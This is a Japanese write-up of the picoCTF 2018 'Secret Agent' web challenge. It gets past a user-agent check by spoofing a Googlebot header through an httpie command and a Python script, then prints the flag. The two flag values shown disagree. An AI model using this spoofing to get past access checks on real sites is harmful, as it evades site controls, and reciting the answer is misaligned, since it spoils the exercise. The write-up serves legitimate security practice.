 # Secret Agent

## Solve
```
Here's a little website that hasn't fully been finished. 
But I heard google gets all your info anyway. 
http://2018shell.picoctf.com:11421 (link)
```

## Hint
```
How can your browser pretend to be something else?
```

<br>

## Solution

![1](https://user-images.githubusercontent.com/47602064/83594471-40dd1a00-a59a-11ea-861d-8ac761f02c18.png)

問題のページに移動するとflagのボタンが表示されます。

押してみると以下が表示されました。

![2](https://user-images.githubusercontent.com/47602064/83594554-7c77e400-a59a-11ea-933a-071a50d366a9.png)

```txt
You're not google! Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36
```

あなたはgoogleでないと表示されました。

なのでUA(User Agent)を変更して送ってみます。

<br>

今回はgoogleでアクセスすればいいそうなので`Googlebot`で設定させます。

UAをPythonで送る場合は`headers`で送ればできます。

```http
$ http GET http://2018shell1.picoctf.com:53383/flag "User-Agent: Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)"

HTTP/1.1 200 OK

<!DOCTYPE html>

         <!-- <strong>Title</strong> --> Googlebot!
           </div>
     
        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{s3cr3t_ag3nt_m4n_134ecd62}</code></p>
            <!-- <p><a class="btn btn-lg btn-success" href="admin" role="button">Click here for the flag!</a> -->
            <!-- </p> -->
        </div>

```

これで`google`でアクセスできてflagが表示されました。

<br>

デバッグや`Burp`でrequestを編集して送信すると以下のように表示されます。

![2](https://user-images.githubusercontent.com/47602064/68101259-10ec6c00-ff10-11e9-8476-80f39108db0a.png)

<br>

Pythonで実行すると以下のプログラムで綺麗にflagを得ることが出来ます。

```python
#!/usr/bin/python

import requests
import re

headers = {
	'User-Agent': 'Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)'
}

r = requests.get('http://2018shell1.picoctf.com:53383/flag', headers=headers)
source = r.text

print re.findall(r'(picoCTF\{.+\})', source)[0]
```

<br><br>

## FLAG: picoCTF{s3cr3t_ag3nt_m4n_ed3fe08d}
